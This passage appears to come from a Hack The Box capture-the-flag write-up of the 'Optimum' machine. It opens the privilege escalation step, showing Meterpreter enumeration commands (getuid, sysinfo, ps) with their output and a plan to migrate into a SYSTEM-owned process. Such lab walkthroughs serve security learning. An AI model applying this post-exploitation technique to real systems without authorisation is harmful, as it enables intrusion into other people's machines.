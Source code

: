 ## Privilege escalation

Let's perform some basic enumeration:

```bash
meterpreter > getuid
Server username: OPTIMUM\kostas
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

If a process is running with an account that has higher privileges than ours, e.g. `SYSTEM`, we can migrate to it and easily perform our privilege escalation. Let's check which processes are running and under what permissions:

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User            Path
 ---   ----  ----                  ----  -------  ----            ----
 0     0     [System Process]
 4     0     System
 228   4     smss.exe
 336   324   csrss.exe
 388   324   wininit.exe
 396   380   csrss.exe
 428   380   winlogon.exe
 476   480   VGAuthService.exe
 480   388   services.exe
 488   388   lsass.exe
 532   480   spoolsv.exe
 548   480   svchost.exe
 576   480   svchost.exe
 664   1960  explorer.exe          x64   1        OPTIMUM\kostas  C:\Windows\explorer.exe
 668   428   dwm.exe
 676   480   svchost.exe
 704   480   svchost.exe
 764   480   svchost.exe
 832   480   svchost.exe
 844   480   svchost.exe
 964   480   svchost.exe
 1036  480   vmtoolsd.exe
 1052  480   ManagementAgentHost.
             exe
 1196  704   taskhostex.exe        x64   1        OPTIMUM\kostas  C:\Windows\System32\taskhostex.exe
 1220  480   svchost.exe
 1360  548   WmiPrvSE.exe
 1444  480   dllhost.exe
 1580  548   WmiPrvSE.exe
 1672  480   msdtc.exe
 1828  2044  JuenwUyEDfVKX.exe     x86   1        OPTIMUM\kostas  C:\Users\kostas\AppData\Local\Temp\rad574C1.tmp\JuenwUyE
                                                                  DfVKX.exe
 1876  2352  conhost.exe           x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe
 2044  2416  wscript.exe           x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\wscript.exe
```